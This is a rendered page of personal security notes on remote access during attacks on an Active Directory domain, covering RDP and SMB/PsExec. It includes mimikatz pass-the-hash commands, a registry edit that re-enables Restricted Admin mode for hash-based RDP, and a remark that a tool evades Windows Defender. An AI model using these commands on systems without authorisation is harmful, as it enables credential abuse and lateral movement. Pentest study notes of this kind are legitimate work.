

repository: gandhi-taha/security · page: attacking_active_directory_domain/remote_access/remote_access/index.html · generator: mkdocs




# Remote access
There are multiple ways to access machines remotely.


![Remote Access Cheat Sheet](./remote_access_cheat_sheet.png "Remote access cheat sheet")

## Remote Desktop Protocol (RDP)

**Port:** 3389/TCP
**Tools:** rdesktop, xfreerdp


### Implementations

```
rdesktop -g 80% 192.168.112.200

sudo aptitude install freerdp2-x11
xfreerdp /u:username /d:nameofdomain.local /p:[thehash] /v:10.1.1.1

sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"
```

### Why is it not working?

- The user you are using must belong to the domain group **Remote Desktop Users**, or allow the user to to RDP to a specific host.

If you want to RDP to a host that you already control (for example if you want to RDP to your physical computer that your client has provided) and you do not belong to the domain group **Remote Desktop Users** you can allow your domain user to RDP to your computer by doing the following:

Go to:

```
system properties / advanced
Fjärrsessioner
Välj användare (Select your user)
Unclick "Tillåt bara bara anslutningar som använder ..."
```

- It might be that the computer you are trying to access `Restricted Admin mode` disabled. This means that you can't use PTH to RDP to it. But if you have a shell you can just enable it, like this:

First you create a new shell as the user you are impersonating.

```
mimikatz.exe "sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:powershell.exe"
```

After that you just create a new powershell session on your target machine, and then you disable the restriction, like the follwing:

```
Enter-PSSession -Computer <Target>
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```

## Server Message Block (SMB)

**Port:** 445/TCP, 135/TCP, High Random Port

**Tools:** Impacket, Metasploit, SysInternals, 

There are various tools that leverage the SMB protocol together with RPC to remotely interact with a computer, the most famous is **PsExec** included in **SysInternals**. In order to use the technique the user must either be a domain user with local administrator permission, or be the local user **Administrator**.

The best tool to use is PsExec.py by Impacket, for e few reasons: it can speak SMBv2, it is not caught by Windows Defender, it can be used by pass the hash.

Most implementations work like this:  
1. It mounts the share `admin$`.  
2. Adds an executable there.  
3. Creates a new service using `Service Control Manager (SCM)`, and link that to the executable.  
4. Starts the service.
